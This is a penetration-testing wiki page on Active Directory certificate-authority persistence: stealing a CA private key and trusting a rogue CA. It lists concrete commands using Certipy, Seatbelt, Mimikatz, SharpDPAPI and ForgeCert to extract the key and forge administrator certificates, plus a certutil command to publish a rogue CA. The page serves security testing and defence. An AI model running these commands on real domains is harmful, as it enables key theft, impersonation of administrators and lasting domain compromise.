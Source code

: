```yaml
---
authors: ShutdownRepo
category: ad
---
```


# Certificate authority

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) identified 2 domain persistence techniques relying on the role of the Certificate Authority within a PKI.

* Forging certificates with a stolen CA certificates (DPERSIST1)
* Trusting rogue CA certificates (DPERSIST2)

## Practice

### Stolen CA

> The Enterprise CA has a certificate and associated private key that exist on the CA server itself. ([Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf))

If an attacker obtains control over a CA server, he may be able to retrieve the private key associated with the CA cert, and use that private key to generate and sign client certificates. This means he could forge (and sign) certificate to authenticate as a powerful user for example.

::: tabs

=== UNIX-like

Extracting the DPAPI-protected CA cert private key can be done remotely from UNIX-like systems with [Certipy](https://github.com/ly4k/Certipy) (Python).


```bash
certipy ca -backup -ca "CA" -username "USER@domain.local" -password "PASSWORD" -dc-ip "DC-IP"
```


Then, forging (and signing) a certificate can be done as follows.


```bash
certipy forge -ca-pfx "CA.pfx" -upn "administrator@corp.local" -subject "CN=Administrator,CN=Users,DC=CORP,DC=LOCAL"
```


The certificate can then be used with [Pass the Certificate](../../movement/kerberos/pass-the-certificate.md).


=== Windows

Extracting the DPAPI-protected CA cert private key can be done remotely with [Seatbelt](https://github.com/GhostPack/Seatbelt) (C#).

```powershell
Seatbelt.exe Certificates -computername="ca.domain.local"
```

Alternatively, the builtin `certsrv.msc` utility can be used locally on the CA server.


```
Win+R > certsrv.msc > CA > right click > All Tasks > Back up CA... > selet "Private key and CA certificate" > Next
```


Alternatively, [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for that purpose, locally.

```powershell
mimikatz.exe "crypto::capi" "crypto::cng" "crypto::certificates /export"
```

Alternatively, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used for that purpose, locally, along with [openssl](https://www.openssl.org/) to transform the PEM into a usable PFX.

```powershell
SharpDPAPI.exe certificates /machine
```


```bash
openssl pkcs12 -in "ca.pem" -keyex -CSP "Microsoft Enhanced
Cryptographic Provider v1.0" -export -out "ca.pfx"
```


Then, forging and signing a certificate can be done with [ForgeCert](https://github.com/GhostPack/ForgeCert) (C#).


```powershell
ForgeCert.exe --CaCertPath "ca.pfx" --CaCertPassword "Password" --Subject "CN=User" --SubjectAltName "administrator@domain.local" --NewCertPath "administrator.pfx" --NewCertPassword "Password"
```


:::


### Rogue CA

> [!WARNING]
> > it is usually preferable for an attacker to steal the existing CA certificate instead of installing an additional rogue CA certificate ([Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf))

An attacker with sufficient privileges in the domain can setup a rogue CA and make the domain's resources trust it. Once the rogue CA is trusted, the attacker can forge and sign client certificates.

In order to register the rogue CA, the self-signed CA cert must be added to the `NTAuthCertificates` object's `cacertificate` attribute, and in the `RootCA` directory services store.

Registering the rogue CA can be done remotely with the `certutil.exe` utility from Windows systems.

```batch
certutil.exe -dspublish -f "C:\Temp\CERT.crt" NTAuthCA
```

Once this is done, a certificate can be forged, signed and used as explained above: [#stolen-ca](certificate-authority.md#stolen-ca)

## Resources

[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)